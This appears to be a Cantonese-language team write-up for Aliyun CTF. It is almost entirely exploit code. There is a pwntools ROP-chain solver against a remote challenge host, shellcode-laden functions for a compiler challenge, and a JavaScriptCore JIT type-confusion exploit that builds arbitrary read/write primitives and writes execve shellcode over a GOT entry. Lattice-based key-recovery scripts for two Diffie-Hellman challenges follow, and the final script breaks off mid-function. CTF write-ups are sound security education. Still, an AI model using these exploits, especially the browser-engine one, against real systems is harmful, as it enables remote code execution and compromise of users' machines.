





呢趟阿里云CTF夺咗第五，师傅们掂过禄蔗，真系过浪显！

<!--more-->

# Pwn

## signin

```Python
from pwn import *

is_debug = 1
is_remote = 1
is_gdb = 0

if is_debug:
    context.log_level = 'debug'

if is_remote == 1:
    host = 'pwn0.aliyunctf.com'
    port = 9999
    sh = remote(host, port)
else:
    sh = process('./pwn')

tob = lambda text: str(text).encode('utf-8')


def _gdb(cmd = "b main"):
    if is_remote == 1 or is_gdb == 0:
        return -1
    gdb.attach(sh, cmd)
    pause()


def cmd(num):
    sh.sendlineafter(b'hhh\n', str(num).encode('utf-8'))


def give_size(size):
    sh.sendlineafter(b'size???', str(size).encode('utf-8'))


def lucky_number(num_arr):
    sh.recvuntil(b'Lucky Numbers\n')
    for i in range(16):
        sh.sendline(tob(num_arr[i]))

elf = ELF('./pwn')
libc = ELF('./libc-2.31.so')

cmd(1)
give_size(0)
# sub_2CFB -> sub_1ED8
num_arr = [62,38,65,128,33,32,35,36,34,37,64,128,32,40,33,64]
lucky_number(num_arr)

# _gdb("b *0x555555557290") # cmd_2
# _gdb("b *0x555555557290\nb *0x555555556514\nb *0x55555555701c\n") # sub_2514
# _gdb("b *0x555555556CFB\nc") # sub_2CF8
# _gdb("b *0x555555556FED\nb *0x555555556CFB\nb *0x555555555C75\nc") # vuln_read_ptr

cmd(2)
my_input = b'123'
sh.sendlineafter(b'xmki\n', my_input)

my_input = b'a'*(0x300-2) + b'b' # leak
sh.sendlineafter(b'xmki\n', my_input)

sh.sendline(b'a')

"""
leak heap && libc && stack
"""
sh.recvuntil(b"ab\x0a")
heap_addr = u64(sh.recv(6).ljust(8,b'\x00'))
sh.recvuntil(b"\x0a")
libc_leak = u64(sh.recv(6).ljust(8,b'\x00'))
libc_shift = 0x7ffff7fc2010 - 0x7ffff7dd5000
libcbase = libc_leak - libc_shift
malloc_hook = libcbase + libc.symbols['__malloc_hook']
environ = libcbase + libc.symbols['__environ']

payload = b"c"*(0x300-1)+b'd' + p64(environ)
sh.sendline(payload)

# sh.interactive()

if is_remote == 1:
    sleep(1)

for _ in range(2):
    sh.sendline(b'1')

sh.recvuntil(b"cd\x0a")
stack_leak = u64(sh.recv(6).ljust(8,b'\x00'))
stack_shift = 0x7fffffffdd98 - 0x7fffffffdc98
stack = stack_leak - stack_shift

# _gdb()
cmd(2)
my_input = b'123'
sh.sendlineafter(b'xmki\n', my_input)
payload = b"c"*(0x300-1)+b'd' + p64(stack-0x0f)
# _gdb()
sh.sendlineafter(b'xmki\n', payload)
sh.sendline(b'a')
# payload = b"c"*(0x300-1)+b'd' + p64(stack-0x0f)
sh.sendline(payload)
# sh.interactive()
sh.recvuntil(b"\x7f\x0a")
canary = u64(sh.recv(7).rjust(8,b'\x00'))

log.success(f"heap_addr = {heap_addr:#x}")
log.success(f"libcbase = {libcbase:#x}")
log.success(f"malloc_hook = {malloc_hook:#x}")
log.success(f"environ = {environ:#x}")
log.success(f"stack = {stack:#x}")
log.success(f"canary = {canary:#x}")

for _ in range(2):
    sh.sendline(b'1')

num_arr2 = [32,48,33,128,33,32,47,71,52,42,32,127,32,46,33,33]
# cmd(2) -> sub_20F7 -> ... -> ...

cmd(1)
give_size(0)
lucky_number(num_arr2)

# _gdb("b *0x555555556514\nb *0x5555555560F7\nb *0x55555555635e\nb *0x555555556ec8")
# _gdb()
cmd(2)

sh.recvuntil(b'xmki\n') # 20F7
sh.sendline(b'20f7')
for _ in range(0x42):
    sh.sendline(str(0xdeadbeef).encode('utf-8')) # pass scanf

# sh.sendline(str(canary&0xffffffff).encode('utf-8'))
# sh.sendline(str(canary&0xffffffff00000000>>8).encode('utf-8'))

def rop(canary):
    # if is_remote == 1:
    #     sleep(0.5)
    sh.sendline(str(canary & 0x00000000ffffffff).encode('utf-8'))
    sh.sendline(str(canary >> 32).encode('utf-8'))
    

rop(canary)
rop(1)

# _gdb("b *0x555555556514\nb *0x5555555560F7\nb *0x55555555635e\nb *0x555555556ec8")
# send_rop(1)

pop_rdi = 0x0000000000023b6a + libcbase
pop_rsi = 0x000000000002601f + libcbase
pop_rdx_r12 = 0x0000000000119431 + libcbase
bss = heap_addr - 0x100
write_place = bss    
read_place = bss + 8 
open_ = libcbase + libc.sym['open']
read = libcbase + libc.sym['read']
write = libcbase + libc.sym['write']
getdents64 = libcbase + libc.sym['getdents64']

lenght = 0x100
# read "/flag" string
rop(pop_rdi)
rop(0)
rop(pop_rsi)
rop(write_place)
rop(pop_rdx_r12)
rop(lenght)
rop(0)
rop(read)

# open
rop(pop_rdi)
rop(write_place)
rop(pop_rsi)
rop(0)
rop(open_)

# read flag
is_getdents64 = 0
if is_getdents64:
    lenght = 0x1000
    rop(pop_rdi)
    rop(3)
    rop(pop_rsi)
    rop(read_place)
    rop(pop_rdx_r12)
    rop(lenght)
    rop(1)
    rop(getdents64)
else:
    rop(pop_rdi)
    rop(3)
    rop(pop_rsi)
    rop(read_place)
    rop(pop_rdx_r12)
    rop(lenght)
    rop(1)
    rop(read)

# write flag
rop(pop_rdi)
rop(1)
rop(pop_rsi)
rop(read_place)
# rop(libcbase+libc.symbols['__environ'])
rop(pop_rdx_r12)
rop(lenght)
rop(1)
rop(write)

# _gdb("b *open")
# rop(0xdeadbeef)
# _gdb("b *0x555555556514\nb *0x5555555560F7\nb *0x55555555635e\nb *0x555555556ec8")

context.log_level = 'debug'
sh.send(b'a')

if is_getdents64:
    sh.sendline(b'/\x00')
else:
    sh.sendline(b'/flag.txt\x00')

sh.interactive()
```

## klang

```Python
function const1(): -> int {
    return 1;
}

function shellcode(int a): 
int li1, int li2 -> int {
    if (a)   { li1 :=  0x13eb90909056f631; };
    if (a+1) { li1 :=  0x13eb9068732f2fbb; };
    if (a+2) { li1 :=  0x13ebd23120e3c148; };
    if (a+3) { li1 :=  0x13eb906e69622fb8; };
    if (a+4) { li1 :=  0x13eb53f631c30948; };
    if (a+5) { li1 :=  0x13eb90c031e78948; };
    if (a+6) { li1 :=  0x13eb9090050f3bb0; };
    if (a+7) { li1 :=  0x4141414141414141; };
    if (a+8) { li1 :=  0x4141414141414141; };
    return li1;
}

function const0(): -> int {
    return 0;
}

function takeone(int x): int y -> int {
    y := x;
    return y;
}

function arbret(int y): int i, string s, array z -> array {
    i := takeone(i+const0());
    i := i + 0x00414141cafebabe;
    i := i - 0x0041414100000000;
    if (takeone(0)+takeone(0x040122e)+takeone(0x0badbabe)) {
        do {
            i := i + 0x4141414141414141;
            return z;
        } while(i+const0());
        return z;
    };
    z := array_new(i);
    return z;
}

function main(): 
array a, int i1, int i2,
string s1, string s2, string s3, string s4, string s5, string s6 -> int {
    a := arbret(0x41414141);
    printi(i1);
    return i1;
}
```

## BadApple

```javascript
let abuf = new ArrayBuffer(0x10);
let bbuf = new BigUint64Array(abuf);
let fbuf = new Float64Array(abuf);
let __obj = { o: 0x1337, oo: 0x4141 };

let __a = { o: {} };
let __b = { o: 0x1337 };
function compare(__a, __b) {
    return __a.o === __b.o;
}
function jit_compare() {
    for (let i = 0; i < 0x10000; i++) {
        compare(__a, __b);
    }
}
jit_compare();

function deoptimize_compare() {
    let a = { x: 0x1337 };
    let b = { o: 0x1337 };
    for (let i = 0; i < 0x1000; i++) {
        try { compare(a, b); } catch (e) { }
    }
}

function fakeobj__(arg, a2) {
    for (let i in __obj) {
        __obj = [1];
        let out = arg[i];
        a2.o = out;
    }
    return a2.o;
}

function deoptimize_fakeobj__() {
    __obj = 0x414141;
    fakeobj__(0x414141, {});
}

__fake = { o: {} };
function jit_fakeobj() {
    __obj = { o: 1234, oo: 1234 };
    fakeobj__(__obj, __fake);
    for (let i = 0; i < 0x10000; i++) {
        fakeobj__(fbuf, __fake);
    }
}

jit_fakeobj();

buffer = new ArrayBuffer(8);
view = new DataView(buffer);
t = {};

function float2uint(value) {
    view.setFloat64(0, value);
    return view.getBigUint64(0);
}

function uint2float(value) {
    view.setBigUint64(0, value, true);
    return view.getFloat64(0, true);
}

function fakeobj(addr) {
    bbuf[0] = addr | 0xfffe000000000000n;
    let o = fakeobj__(fbuf, __fake);
    return o;
}

let arr_list = [];
p = 13.37;
for (let i = 0; i < 30; i++) {
    a = new Array(p, 1.1, 1.2, 1.3, 1.4, 1.5);
    arr_list.push(a);
}

obj_array = new Array({}, 1.1, 1.2, 1.3, 1.4, 1.5);
float_array = new Array(1.1, 1.2, 1.3, 1.4, 1.5);

let fake_cell = uint2float(0x0108240700006240n - 0x2000000000000n);
let container = {
    header: fake_cell,
    butterfly: arr_list[1],
    pad1: uint2float(0n),
    pad2: uint2float(0n)
};
let _addr = 0n;
let toLeak = { o: container };

function run_cmp(_fbuf, leak_target) {
    let m = null;
    for (let i in __obj) {
        __obj = [1];
        let out = _fbuf[i];
        m = out;
    }
    return compare(leak_target, { o: m });
}
function jit_run_cmp() {
    __obj = { o: 0x1337, oo: 0x4141 };
    run_cmp(__obj, toLeak);
    for (let i = 0; i < 0x10000; i++) {
        run_cmp(fbuf, toLeak);
    }
}
jit_run_cmp();
jit_compare();

function dirty_addrof() {
    let i = 0;
    for (i = 0x7f0000000130n; i < 0x7fffffff0130n; i += 0x10000n) {
        bbuf[0] = i | 0xfffe000000000000n;
        let r = run_cmp(fbuf, toLeak);
        if (r) {
            return i;
        }
    }
    throw ("[!] not found: " + i.toString(16));
}

function hex(x) {
    return "0x" + x.toString(16);
}

fake_arr_addr = dirty_addrof() + 0x10n;
fake_arr = fakeobj(fake_arr_addr);
container.header = uint2float(float2uint(fake_arr[0]) - 0x2000000000000n);

function arb_readn(addr, o) {
    fake_arr[1] = uint2float(addr);
    return arr_list[1][o];
}

function arb_write_uintn(addr, value, offset) {
    fake_arr[1] = uint2float(addr);
    arr_list[1][offset] = uint2float(value);
}

function arb_write_float(addr, value) {
    fake_arr[1] = uint2float(addr);
    arr_list[1][0] = (value);
}

arb_write_uintn(fake_arr_addr + 0x100n, 0x4141414141414141n, 0);

function wasm_func() {
    var wasm_import = {
        env: {}
    };
    var buffer = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer), wasm_import);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.main;
}

function addrof(any_obj) {
    arr_list[2][0] = any_obj;
    fake_arr[2] = uint2float(0x0008240700006240n);
    r = float2uint(arr_list[2][0]);
    fake_arr[2] = uint2float(0x01082409000061d0n);
    return r;
}

wasm_function = wasm_func();
wasm_function_addr = addrof(wasm_function);
code_addr = wasm_function_addr + 0x40n - 0x10n;
code_addr = float2uint(arb_readn(code_addr, 2));
target_code_addr = code_addr - 0x4000n + 0x20n;

var shellcode = [
0x6e69622fb848686an,
0xe7894850732f2f2fn,
0x2434810101697268n,
0x6a56f63101010101n,
0x894856e601485e08n,
0x050f583b6ad231e6n
];

function get_jit_function() {
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }
    for (var i = 0; i < 0x5000; i++) {
        target(i);
    }
    for (var i = 0; i < 0x5000; i++) {
        target(i);
    }
    for (var i = 0; i < 0x5000; i++) {
        target(i);
    }

    return target;
}

let f = get_jit_function();
let addr_f = addrof(f);
let addr_wtf = float2uint(arb_readn(addr_f, 3));
let addr_wtf2 = float2uint(arb_readn(addr_wtf + 8n, 0));
container.header = uint2float(float2uint(fake_arr[0]) - 0x2000000000000n);
let addr_wtf3 = float2uint(arb_readn(addr_wtf2-0x10n, 0x2));
container.header = uint2float(float2uint(fake_arr[0]) - 0x2000000000000n);
let addr_wtf4 = float2uint(arb_readn(addr_wtf3-0x10n, 2));

let libjsc = addr_wtf4 - 0x7effb0n;
let exit_got = libjsc + 0x1e96380n;
arb_write_uintn(exit_got, target_code_addr, 0);
for (let i = 0; i < shellcode.length; i++) {
    arb_write_uintn(target_code_addr, BigInt(shellcode[i]), i);
}

Math.sin(1);
```

# Crypto

## BabyDH1

椭圆曲线方程朴素造格，枚举部分未知bit，多和服务器交互几次。

```Python
# This file was *autogenerated* from the file exploit.sage
from sage.all_cmdline import *   # import sage library

_sage_const_4 = Integer(4); _sage_const_8 = Integer(8); _sage_const_7 = Integer(7); _sage_const_3 = Integer(3); _sage_const_2 = Integer(2); _sage_const_1 = Integer(1); _sage_const_0 = Integer(0); _sage_const_5 = Integer(5); _sage_const_6 = Integer(6); _sage_const_12346 = Integer(12346); _sage_const_14 = Integer(14); _sage_const_16 = Integer(16); _sage_const_65 = Integer(65); _sage_const_211 = Integer(211); _sage_const_64 = Integer(64); _sage_const_2048 = Integer(2048); _sage_const_256 = Integer(256); _sage_const_21 = Integer(21); _sage_const_43 = Integer(43); _sage_const_32768 = Integer(32768); _sage_const_15 = Integer(15)
import sys
from os.path import dirname
sys.path.append('.venv/lib/python3.11/site-packages')


import time

from pwn import remote
from hashlib import sha256
import string, itertools
from ecdsa import NIST256p
from ecdsa.ecdsa import Public_key
from ecdsa.ellipticcurve import Point
import gmpy2, tqdm, binascii
from Crypto.Cipher import AES
import sage.parallel.multiprocessing_sage


def PoW(hash_value, part):
    alphabet = string.ascii_letters + string.digits
    for x in itertools.product(alphabet, repeat=_sage_const_4 ):
        nonce = ''.join(x)
        if sha256((nonce + part.decode()).encode()).hexdigest() == hash_value.decode():
            return nonce

def work(start, cnt, *, E, G, m, n, p, EE, bob_pk, msg, shared_AC_x, shared_AC_y, xl, yl, a, b, K, mx, my, By, Bx, targetB, **kwargs):
    from pwn import remote
    from hashlib import sha256
    import string, itertools
    from ecdsa import NIST256p
    from ecdsa.ecdsa import Public_key
    from ecdsa.ellipticcurve import Point
    import gmpy2, tqdm, binascii
    from Crypto.Cipher import AES
    import sage.parallel.multiprocessing_sage
    _sage_const_4 = Integer(4); _sage_const_8 = Integer(8); _sage_const_7 = Integer(7); _sage_const_3 = Integer(3); _sage_const_2 = Integer(2); _sage_const_1 = Integer(1); _sage_const_0 = Integer(0); _sage_const_5 = Integer(5); _sage_const_6 = Integer(6); _sage_const_12346 = Integer(12346); _sage_const_14 = Integer(14); _sage_const_16 = Integer(16); _sage_const_65 = Integer(65); _sage_const_211 = Integer(211); _sage_const_64 = Integer(64); _sage_const_2048 = Integer(2048); _sage_const_256 = Integer(256); _sage_const_21 = Integer(21); _sage_const_43 = Integer(43); _sage_const_32768 = Integer(32768); _sage_const_15 = Integer(15)

    for i in range(start, start + cnt):

        M = Matrix(ZZ, _sage_const_8 , _sage_const_7 )
        # test
        # xl = shared_AC_x + i*m*2**20
        xl = shared_AC_x + i * m

        v = vector(Zmod(p), [mx**_sage_const_3 , _sage_const_3 *xl*mx**_sage_const_2 , _sage_const_3 *xl**_sage_const_2 *mx+a*mx, -my**_sage_const_2 , -_sage_const_2 *yl*my, xl**_sage_const_3 +a*xl+b-yl**_sage_const_2 , p])
        v = v.change_ring(ZZ)
        v[-_sage_const_1 ] = p
        v = v * K
        M[_sage_const_0 ] = v
        M[_sage_const_1 , _sage_const_0 ] = targetB // Bx ** _sage_const_3 
        M[_sage_const_2 , _sage_const_1 ] = targetB // Bx ** _sage_const_2 
        M[_sage_const_3 , _sage_const_2 ] = targetB // Bx
        M[_sage_const_4 , _sage_const_3 ] = targetB // By ** _sage_const_2 
        M[_sage_const_5 , _sage_const_4 ] = targetB // By
        M[_sage_const_6 , _sage_const_5 ] = targetB
        M[_sage_const_7 , _sage_const_6 ] = _sage_const_1 
        M = M.T

        L = M.LLL()

        xx, yy = None, None
        for line in L:
            if line[_sage_const_0 ] == _sage_const_0  and abs(line[-_sage_const_2 ]) == targetB and gmpy2.iroot(int(abs(line[_sage_const_1 ])) // M[_sage_const_0 , _sage_const_1 ], _sage_const_3 )[_sage_const_1 ]:
                print(line)
                print(i)
                xh = gmpy2.iroot(int(abs(line[_sage_const_1 ]))// M[_sage_const_0 , _sage_const_1 ], _sage_const_3 )[_sage_const_0 ]
                yh = gmpy2.iroot(int(abs(line[_sage_const_3 ])), _sage_const_2 )[_sage_const_0 ]
                xx = int(xh * mx + int(xl))
                # yy = int(yh * my + int(yl))
                yy = int(EE.lift_x(Zmod(p)(xx))[_sage_const_1 ])
                break

                # print(xxx % mx, xl)
                # print(yyy % my, yl)
                # print(xxx // mx, xh)
                # print(yyy // my, yh)
                # print(xxx, xx)
                # print(yyy, yy)

        if xx is not None:
            try:
                EE(xx, yy)
            except:
                continue
            print(EE(xx, yy))

            return (xx, yy)
    return (None, None)

def main():
    conn = remote('crypto0.aliyunctf.com', int(_sage_const_12346 ))
    # conn = remote('127.0.0.1', int(12346))

    msg = conn.recvline()
    # pow
    part = msg[_sage_const_14 :_sage_const_14 +_sage_const_16 ]
    hashvalue = msg[-_sage_const_65 :-_sage_const_1 ]
    print(msg)
    print(hashvalue)
    print(part)
    nonce = PoW(hashvalue, part)
    print(nonce)
    conn.sendline(nonce)

    conn.recvuntil(b'Give me XXXX:')

    conn.recvuntil(b'Hi, Bob! Here is my public key: ')
    alice_pk = int(conn.recvline()[:-_sage_const_1 ].decode(), _sage_const_16 )
    conn.recvuntil(b'Hi, Alice! Here is my public key: ')
    bob_pk = int(conn.recvline()[:-_sage_const_1 ].decode(), _sage_const_16 )

    # str_real_key = conn.recvline()[:-1]
    # real_key = conn.recvline()[:-1]
    enc_sec = conn.recvline()[:-_sage_const_1 ]

    E = NIST256p.curve
    G = NIST256p.generator
    m = _sage_const_2 **_sage_const_211 
    n = G.order()

    # print(Point(E, int(shared_AB[:80], 16), int(shared_AB[80:], 16)))

    p = E.p()
    EE = EllipticCurve(Zmod(p), [E.a(), E.b()])

    bob_pk = EE.lift_x(Zmod(p)(bob_pk))

    print(conn.recvline())

    conn.sendline(hex(bob_pk[_sage_const_0 ])[_sage_const_2 :].rjust(_sage_const_64 ,'0').encode()+b' ' + hex(bob_pk[_sage_const_1 ])[_sage_const_2 :].rjust(_sage_const_64 ,'0').encode()+b' ')
    conn.recvuntil(b'Leak: ')
    msg = conn.recvline()[:-_sage_const_1 ].decode().split(',')
    shared_AC_x = int(msg[_sage_const_0 ],_sage_const_16 )
    shared_AC_y = int(msg[_sage_const_1 ],_sage_const_16 )
    xl, yl = shared_AC_x, shared_AC_y

    # test
    # msg = conn.recvline()[:-1].split(b',')
    # xxx , yyy = int(msg[0]), int(msg[0])

    a = int(E.a())
    b = int(E.b())

    K = _sage_const_2 **_sage_const_2048 
    mx = _sage_const_2 **(_sage_const_256 -_sage_const_21 )
    my = _sage_const_2 **(_sage_const_256 -_sage_const_43 )
    By = _sage_const_2 **_sage_const_256  // my
    Bx = _sage_const_2 **_sage_const_256  // mx
    targetB = Bx**_sage_const_3  if Bx**_sage_const_3  > By**_sage_const_2  else By**_sage_const_2 
    # print(Bx, By, targetB)
    # time.sleep(10)

    RANGE = int(32768 * 8)
    N = 512
    local = locals()
    arguments = [ ((i * N, N),local) for i in range(RANGE // N) ]          #      是下面这个 16
    for (_, (xx, yy)) in tqdm.tqdm(sage.parallel.multiprocessing_sage.parallel_iter(16 , work, arguments), total=RANGE // N):
        if xx is not None:
            break

    # for i in tqdm.tqdm(range(mx // (m*2**20))):
    #with Pool(8) as pool:
    #    RANGE = int(32768)
    #    local = locals()
    #    arguments = [ ((i, local),{}) for i in range(RANGE) ]
    #    for (xx, yy) in tqdm.tqdm(pool.imap_unordered(work, arguments), total=RANGE):
    #        if xx is not None:
    #            break

    if xx is None:
        conn.close()
        return

    shared_ABs = [(gmpy2.mpz(int(xx)) % p, gmpy2.mpz(int(yy)) % p),
              (gmpy2.mpz(int(xx)) % p, p - gmpy2.mpz(int(yy)) % p),
              (int(xx) % p, int(yy) % p),
              (int(xx) % p, p - int(yy) % p)
              ]
    enc_sec = binascii.unhexlify(enc_sec)
    for shared_AB in shared_ABs:
        # print(str(shared_AB), str_real_key)
        key = sha256(str(shared_AB).encode()).digest()
        # print(key.hex(), real_key)
        
        sec = AES.new(key, AES.MODE_ECB).decrypt(enc_sec)
        print(sec)
        if b'Secret sign' not in sec:
            continue
        else:
            break
    secret_sign = sec[_sage_const_15 :-_sage_const_1 ]
    assert len(secret_sign) == _sage_const_64 
    payload = AES.new(key, AES.MODE_ECB).encrypt(secret_sign).hex().encode() + b' '
    conn.sendline(payload)
    msg = conn.recvline()
    print(msg)
    conn.close()
    if b'Wrong' in msg:
        return
    else:
        raise Exception('SUCCESS!')

# conn.interactive()

if __name__ == '__main__':
    while True:
        main()
```



## BabyDH2

https://eprint.iacr.org/2022/1239.pdf

实现论文方法即可

```Python
from pwn import *
import itertools
import string
from hashlib import sha256
from copy import deepcopy
from Crypto.Cipher import AES
from subprocess import check_output, DEVNULL, CalledProcessError
import fgb_sage

context.log_level = 'debug'

def show_lattice(L):
    res = []
    for i in range(L.nrows()):
        res_i = []
        for j in range(L.ncols()):
            if L[i, j] != 0:
                res_i.append('X')
            else:
                res_i.append('0')
        res_i = ''.join(res_i)
        res.append(res_i)
    res = '\n'.join(res)
    print(res)


def to_fplll_format(M):
    m, n = M.dimensions()
    ret = ""
    s = "["
    for i in range(m):
        s += "["
        for j in range(n):
            s += str(M[i, j])
            if j < n - 1:
                s += " "
        s += "]"
        ret += s + "\n"
        s = ""
    ret += "]"
    return ret


def from_fplll_format(s):
    rows = []
    for line in s.splitlines():
        line = line.lstrip("[").rstrip("\n").rstrip("]")
        if len(line) == 0:
            break

        row = [int(x) for x in line.split(" ") if len(x) > 0 and x != "]"]
        rows += [row]
    m = len(rows)
    n = len(rows[0])
    for row in rows:
        assert len(row) == n

    L = Matrix(ZZ, m, n)
    for i in range(m):
        for j in range(n):
            L[i, j] = rows[i][j]
    return L


def flatter(M):
    # compile https://github.com/keeganryan/flatter and put it in $PATH
    s = to_fplll_format(M)
    try:
        ret = check_output(["flatter"], input=s.encode(), stderr=DEVNULL)
        return from_fplll_format(ret.decode())
    except CalledProcessError:
        print("Flatter error, matrix written to /tmp/flatter_error")
        with open("/tmp/flatter_error", "w") as f:
            f.write(s)
        return M.change_ring(ZZ)


class MyOrder:
    def __init__(self, x):
        self.x_tup = tuple(x)

    def __lt__(self, B):
        x_tup = self.x_tup
        y_tup = B.x_tup

        # grevlex
        x_rear = x_tup[1:]
        y_rear = y_tup[1:]
        if (sum(x_rear) < sum(y_rear)) or (sum(x_rear) == sum(y_rear) and x_rear[::-1] < y_rear[::-1]):
            return True
        if x_rear == y_rear and x_tup[0] < y_tup[0]:
            return True
        return False


class Gao:
    def __init__(self):
        # self.conn = process(['python3', 'another.py'])
        # self.conn = remote('127.0.0.1', int(12345))
        # self.debug = True

        self.conn = remote('crypto1.aliyunctf.com', int(12345))
        self.debug = False

        self.p = 115792089210356248762697446949407573530086143415290314195533631308867097853951
        self.a = -3
        self.b = 41058363725152142129326129780047268409114441015993725554835256314039467401291
        self.Gx = 48439561293906451759052585252797914202762949526041747995844080717082404635286
        self.Gy = 36134250956749795798585127919587881956611106672985015071877198253568414405109
        self.E = EllipticCurve(Zmod(self.p), [self.a, self.b])
        self.G = self.E(self.Gx, self.Gy)

        self.N = 11
        self.l = 2**164

        self.n = (self.N - 1) // 2

        self.LSB_list = []
        self.ans_list = []
        self.e_list = []

    def gao_sha256(self):
        msg = self.conn.recvline()
        part = msg[14:30]
        hash_value = msg[-65:-1]
        alphabet = string.ascii_letters + string.digits
        for x in itertools.product(alphabet, repeat=4):
            nonce = ''.join(x)
            if sha256((nonce + part.decode()).encode()).hexdigest() == hash_value.decode():
                print("SHA OK")
                self.conn.sendlineafter(b'Give me XXXX:', nonce)
                return
        else:
            raise Exception("SHA GG")

    def recv_pk(self):
        self.conn.recvuntil('public key: ')
        A_x = int(self.conn.recvline(), 16)
        self.A = self.E.lift_x(ZZ(A_x))
        self.conn.recvuntil('public key: ')
        B_x = int(self.conn.recvline(), 16)
